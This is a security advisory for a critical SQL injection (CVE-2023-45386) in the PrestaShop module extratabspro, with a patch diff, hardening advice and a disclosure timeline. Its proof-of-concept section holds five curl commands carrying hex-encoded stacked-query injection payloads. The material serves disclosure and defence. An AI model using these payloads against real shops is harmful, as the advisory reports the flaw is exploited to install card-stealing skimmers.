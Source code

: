 ```yaml
---
layout: post
title: "[CVE-2023-45386] Improper neutralization of SQL parameter in MyPresta.eu - Product Extra Tabs Pro for PrestaShop"
categories: modules
author:
- TouchWeb.fr
- 202 Ecommerce
- Friends-Of-Presta.org
meta: "CVE,PrestaShop,extratabspro"
severity: "critical (9.8)"
---
```


In the module "Product Extra Tabs Pro" (extratabspro) up to version 2.2.8 from MyPresta.eu for PrestaShop, a guest can perform SQL injection in affected versions.


## Summary

* **CVE ID**: [CVE-2023-45386](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-45386)
* **Published at**: 2023-10-12
* **Platform**: PrestaShop
* **Product**: extratabspro
* **Impacted release**: <= 2.2.7 (2.2.8 fixed the vulnerability)
* **Product author**: MyPresta.eu
* **Weakness**: [CWE-89](https://cwe.mitre.org/data/definitions/89.html)
* **Severity**: critical (9.8)

## Description

Methods `extratabspro::searchcategory()`, `extratabspro::searchproduct()` and `extratabspro::searchmanufacturer()` have sensitive SQL calls that can be executed with a trivial http call and exploited to forge a SQL injection.

The exploit can be used even if the module is not activated.

**WARNING** : This exploit is actively used to deploy a webskimmer to massively steal credit cards.

## CVSS base metrics

* **Attack vector**: network
* **Attack complexity**: low
* **Privilege required**: none
* **User interaction**: none
* **Scope**: unchanged
* **Confidentiality**: high
* **Integrity**: high
* **Availability**: high

**Vector string**: [CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)

## Possible malicious usage

* Obtain admin access
* Remove data from the associated PrestaShop
* Copy/paste data from sensitive tables to FRONT to expose tokens and unlock admins's ajax scripts
* Rewrite SMTP settings to hijack emails


## Proof of concept


```bash
curl -v -X POST -d 'search_feature=1";select(0x73656C65637420736C656570283432293B)INTO@a;prepare`b`from@a;execute`b`;--' 'https://preprod.X/modules/extratabspro/ajax_extratabspro.php'
curl -v -X POST -d 'searchsupplier=1";select(0x73656C65637420736C656570283432293B)INTO@a;prepare`b`from@a;execute`b`;--' 'https://preprod.X/modules/extratabspro/ajax_extratabspro.php'
curl -v -X POST -d 'search=1";select(0x73656C65637420736C656570283432293B)INTO@a;prepare`b`from@a;execute`b`;--' 'https://preprod.X/modules/extratabspro/ajax_extratabspro.php'
curl -v -X POST -d 'search_product=1";select(0x73656C65637420736C656570283432293B)INTO@a;prepare`b`from@a;execute`b`;--' 'https://preprod.X/modules/extratabspro/ajax_extratabspro.php'
curl -v -X POST -d 'search_manufacturer=1";select(0x73656C65637420736C656570283432293B)INTO@a;prepare`b`from@a;execute`b`;--' 'https://preprod.X/modules/extratabspro/ajax_extratabspro.php'
```

## Patch from 2.2.7

```diff
--- 2.2.7/extratabspro/extratabspro.php
+++ 2.2.8/extratabspro/extratabspro.php
...
public function searchsupplier($search)
    {
-       return Db::getInstance()->ExecuteS('SELECT `id_supplier`,`name` FROM `' . _DB_PREFIX_ . 'supplier` WHERE `name` like "%' . $search . '%" LIMIT 10');
+       return Db::getInstance()->ExecuteS('SELECT `id_supplier`,`name` FROM `' . _DB_PREFIX_ . 'supplier` WHERE `name` like "%' . pSQL($search) . '%" LIMIT 10');
    }

    public function getSuppliers($id)
    {
-       return Db::getInstance()->ExecuteS('SELECT `id_supplier` FROM `' . _DB_PREFIX_ . 'product_supplier` WHERE `id_product`= ' . $id . ' GROUP BY id_supplier');
+       return Db::getInstance()->ExecuteS('SELECT `id_supplier` FROM `' . _DB_PREFIX_ . 'product_supplier` WHERE `id_product`= ' . (int) $id . ' GROUP BY id_supplier');
    }

    public function searchfeature($search)
    {
-       return Db::getInstance()->ExecuteS('SELECT `id_feature_value`,`value` as name FROM `' . _DB_PREFIX_ . 'feature_value_lang` WHERE `value` like "%' . (string )$search . '%" AND id_lang="' . Configuration::get('PS_LANG_DEFAULT') . '" LIMIT 10');
+       return Db::getInstance()->ExecuteS('SELECT `id_feature_value`,`value` as name FROM `' . _DB_PREFIX_ . 'feature_value_lang` WHERE `value` like "%' . pSQL($search) . '%" AND id_lang="' . Configuration::get('PS_LANG_DEFAULT') . '" LIMIT 10');
    }

    public function searchcategory($search)
    {
-       return Db::getInstance()->ExecuteS('SELECT `id_category`,`name` FROM `' . _DB_PREFIX_ . 'category_lang` WHERE `name` like "%' . $search . '%" AND id_lang="' . Configuration::get('PS_LANG_DEFAULT') . '" AND id_shop="' . $this->context->shop->id . '" LIMIT 10');
+       return Db::getInstance()->ExecuteS('SELECT `id_category`,`name` FROM `' . _DB_PREFIX_ . 'category_lang` WHERE `name` like "%' . pSQL($search) . '%" AND id_lang="' . Configuration::get('PS_LANG_DEFAULT') . '" AND id_shop="' . $this->context->shop->id . '" LIMIT 10');
    }

    public function searchproduct($search)
    {
-       return Db::getInstance()->ExecuteS('SELECT `id_product`,`name` FROM `' . _DB_PREFIX_ . 'product_lang` WHERE `name` like "%' . $search . '%" AND id_lang="' . Configuration::get('PS_LANG_DEFAULT') . '" AND id_shop="' . $this->context->shop->id . '" LIMIT 10');
+       return Db::getInstance()->ExecuteS('SELECT `id_product`,`name` FROM `' . _DB_PREFIX_ . 'product_lang` WHERE `name` like "%' . pSQL($search) . '%" AND id_lang="' . Configuration::get('PS_LANG_DEFAULT') . '" AND id_shop="' . $this->context->shop->id . '" LIMIT 10');
    }

    public function searchmanufacturer($search)
    {
-       return Db::getInstance()->ExecuteS('SELECT m.`id_manufacturer`,m.`name` FROM `' . _DB_PREFIX_ . 'manufacturer` m LEFT JOIN `' . _DB_PREFIX_ . 'manufacturer_shop` ms ON ms.id_manufacturer = m.id_manufacturer WHERE `name` like "%' . $search . '%" AND ms.id_shop="' . $this->context->shop->id . '" LIMIT 10');
+       return Db::getInstance()->ExecuteS('SELECT m.`id_manufacturer`,m.`name` FROM `' . _DB_PREFIX_ . 'manufacturer` m LEFT JOIN `' . _DB_PREFIX_ . 'manufacturer_shop` ms ON ms.id_manufacturer = m.id_manufacturer WHERE `name` like "%' . pSQL($search) . '%" AND ms.id_shop="' . $this->context->shop->id . '" LIMIT 10');
    }
```

## Other recommendations

* It’s recommended to upgrade to the latest version of the module **extratabspro**.
* To help improve the security of your PrestaShop installation, we recommend upgrading to the latest version. One of the benefits of upgrading is that it will disable the use of multiquery executions (separated by semicolons). However, please be aware that this **will not protect** your shop against SQL injection attacks that use the UNION clause to steal data. Additionally, it's important to note that PrestaShop includes a function called pSQL, which includes a strip_tags function. This helps protect your shop against [Stored XSS (also known as XSS T2) of Category 1](https://security.friendsofpresta.org/modules/2023/02/07/stored-xss.html). If a pSQL function is missing, it could potentially expose your project to critical Stored XSS vulnerabilities due to edge cases. Therefore, it's crucial to ensure that all relevant functions are properly implemented and used consistently throughout your project.
* Change the default database prefix `ps_` with a new longer, arbitrary prefix. Nevertheless, be warned that this is useless against blackhats with DBA senior skill because of a design vulnerability in DBMS
* Activate OWASP 942's rules on your WAF (Web application firewall), be warned that you will probably break your backoffice and you will need to pre-configure some bypasses against this set of rules.

## Timeline

| Date | Action |
|--|--|
| 2023-04-27 | Issue discovered during a code review by [TouchWeb.fr](https://www.touchweb.fr) |
| 2023-04-28 | Contact Author to confirm version scope |
| 2023-04-28 | Request a CVE ID |
| 2023-05-23 | Author confirm version scope |
| 2023-05-23 | Recontact author to get fixed version of the module to confirm fix |
| 2023-09-26 | Relaunch author to get fixed version of the module to confirm fix |
| 2023-09-26 | Author give the archive of the fix version of the module - fix confirmed |
| 2023-10-11 | Received CVE ID |
| 2023-10-12 | Publish this security advisory |

## Links

* [Author product page](https://mypresta.eu/modules/front-office-features/product-extra-tabs-pro.html)
* [National Vulnerability Database](https://nvd.nist.gov/vuln/detail/CVE-2023-45386)
